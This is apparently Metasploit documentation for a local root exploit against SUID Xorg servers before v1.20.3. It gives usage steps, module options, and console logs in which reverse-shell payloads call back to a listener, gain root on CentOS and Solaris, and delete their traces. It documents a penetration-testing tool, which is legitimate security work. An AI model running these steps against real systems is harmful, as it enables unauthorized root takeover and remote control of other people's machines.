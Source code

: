 ## Vulnerable Application

For Xorg server versions below `v1.20.3`, there is an incorrect permissions
check when starting Xorg with the `-modulepath` flag. That combined with Xorg
being an SUID binary, users can execute arbitrary code as root.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/local/xorg_x11_suid_server_modulepath`
4. Do: `set SESSION <sess_no>`
5. Do: `set TARGET <target_no>`
6. Do: `run`
7. You should get a shell with root privileges.


## Options

### Xdisplay

Display to use for Xorg (default: `:1`)

### WritableDir

A writable directory file system path (default: `/tmp`)

### ConsoleLock

Will check for console lock under linux (default: `true`)

### sofile

Xorg shared object name for modulepath (default: `libglx.so`)


## Scenarios

### Xorg `v1.19.3` on Centos 7.4

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.215.1:4444
[*] Sending stage (816260 bytes) to 172.16.215.159
[*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.159:52816) at 2019-10-22 09:50:42 -0500

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/multi/local/xorg_x11_suid_server_modulepath
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > set session 1
session => 1
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > set lhost 172.16.215.1
lhost => 172.16.215.1
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > check
[+]  The target is vulnerable.
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > run

[*] Started reverse TCP handler on 172.16.215.1:4444
[+] Passed all initial checks for exploit
[*] Writing launcher and compiling
[*] Uploading your payload, this could take a while
[*] Exploiting
[*] Sending stage (816260 bytes) to 172.16.215.159
[*] Meterpreter session 2 opened (172.16.215.1:4444 -> 172.16.215.159:52818) at 2019-10-22 09:51:38 -0500
[+] Deleted /tmp/libglx.so
[+] Deleted /tmp/.session-xehPZXcIrZ

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Xorg `v1.19.5` on Solaris 11.4

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.215.1:4444
[*] Command shell session 3 opened (172.16.215.1:4444 -> 172.16.215.152:49722) at 2019-10-22 09:27:45 -0500

whoami
space
uname -a
SunOS solaris 5.11 11.4.0.15.0 i86pc i386 i86pc
background

Background session 3? [y/N]  y

msf exploit(multi/handler) > use exploit/multi/local/xorg_x11_suid_server_modulepath
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > set payload cmd/unix/reverse_ksh
payload => cmd/unix/reverse_ksh
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > set lhost 172.16.215.1
lhost => 172.16.215.1
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > set session 3
session => 3
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > set target 2
target => 2
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > check

[!] SESSION may not be compatible with this module.
[+]  The target is vulnerable.
msf exploit(multi/local/xorg_x11_suid_server_modulepath) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.215.1:4444
[+] Passed all initial checks for exploit
[*] Writing launcher and compiling
[*] Uploading your payload, this could take a while
[*] Exploiting
[*] Command shell session 4 opened (172.16.215.1:4444 -> 172.16.215.152:57420) at 2019-10-22 09:30:05 -0500
[+] Deleted /tmp/qHkvGfpTTu.c
[+] Deleted /tmp/libglx.so
[+] Deleted /tmp/.session-jRlZ4zPfO

whoami
root
uname -a
SunOS solaris 5.11 11.4.0.15.0 i86pc i386 i86pc
```
